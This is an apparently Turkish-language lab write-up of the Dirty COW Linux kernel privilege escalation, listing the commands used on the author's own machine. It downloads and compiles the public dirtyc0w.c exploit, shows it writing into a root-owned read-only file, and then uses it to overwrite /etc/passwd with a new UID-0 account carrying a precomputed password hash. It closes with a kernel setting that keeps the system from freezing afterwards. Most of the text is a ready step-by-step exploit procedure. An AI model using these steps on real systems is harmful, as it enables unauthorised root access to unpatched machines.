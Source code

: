 Note: https://www.youtube.com/watch?v=kEsshExn7aE 
sitesinde ayrıntılı şekilde açklanmıştır.

DIRTYCOW
-----------

1- root olarak bir dosya oluşturulmuş ve içine yazı yazılmıştır.(normal kullanıcı olarak okuma yapılabilir ancak yazılamaz olduğu test edilmiştir.)

	$sudo su
	#echo "can you write" > file
	#chmod 0404 file
	#exit


2- githubta hazır olan dirtyc0w.c bilgisayara indirilmiş ve multithread çalışacak şekilde derlenmiştir.

	$wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirtyc0w.c
	$gcc -pthread dirtyc0w.c -o dirtyc0w


3- Derlenen program çalışırıp denenmiştir.(istenilen girdi file isimli dosyaya yazılabilmiştir.)

	$./dirtyc0w file "Yes i can"
	$cat file
	Yes i canrite

4-  "/etc/passwd" dosyasına yazma yapılmaya çalışılmıştır. /etc/passwd ‘nin hexadecimal karşılığı çıkarılmış ve yeni kullanıcıyı yazılacak yerin offseti hesaplanmıştır. Bu offset değeri indirmiş olduğum kaynak kodun içinde gerekli yere yazılmıştır. Bu örnekte offset değeri değiştirilmeden direk root kullanıcısının üstüne yazılmıştır. Ayrıca yeni kullanıcıya verilecek şifrenin hash kodu hesaplanmıştır. 
	
	$perl -e 'print crypt("password", "XX")' ---------------> XXq2wKiyI43A2
	$./dirtyc0w /etc/passwd “newuser:XXq2wKiyI43A2:0:0:,,,:/home/user:/bin:bash”
5- /etc/passwd istenilen şekilde değiştirilmiştir. Yeni oluşturulan kullanıcıya geçiş yapılmıştır.

NOT:
----------------------------------------
Yazma işleminden sonra linux donmuştur. İşlem tekrar yapılmış fakat aynı sonuç ile kaşılaşılmıştır.
Bu sorun "https://github.com/dirtycow/dirtycow.github.io/issues/35" adresi yardımı ile çözüşmüştür.

echo 0 > /proc/sys/vm/dirty_writeback_centisecs
----------------------------------------






